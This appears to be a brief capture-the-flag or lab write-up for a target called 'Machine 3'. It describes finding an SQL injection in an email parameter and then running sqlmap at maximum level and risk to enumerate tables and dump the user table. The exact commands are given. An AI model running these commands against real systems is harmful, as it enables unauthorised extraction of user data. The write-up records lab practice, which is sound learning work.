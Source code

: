 # Machine 3



I forgot we got given creds so I guess I took the hard way into the site :)

get a database error with ```'``` in the email parameter

![](https://i.imgur.com/AC1HAHI.png)

put request in a file and unleash max sqlmap on it

![](https://i.imgur.com/FB7GJXv.png)

```sqlmap -r koala.req --threads=10 --level 5 --risk 3```
![](https://i.imgur.com/AHBIdEl.png)

We have a vulnerability in email param, blind time-based injection

enum tables

```sqlmap -r koala.req --threads=10 --level 5 --risk 3 --tables```

![](https://i.imgur.com/oGITJll.png)

dump user table

```sqlmap -r koala.req --threads=10 --level 5 --risk 3 -T user --dump```

![](https://i.imgur.com/lPJP7uK.png)

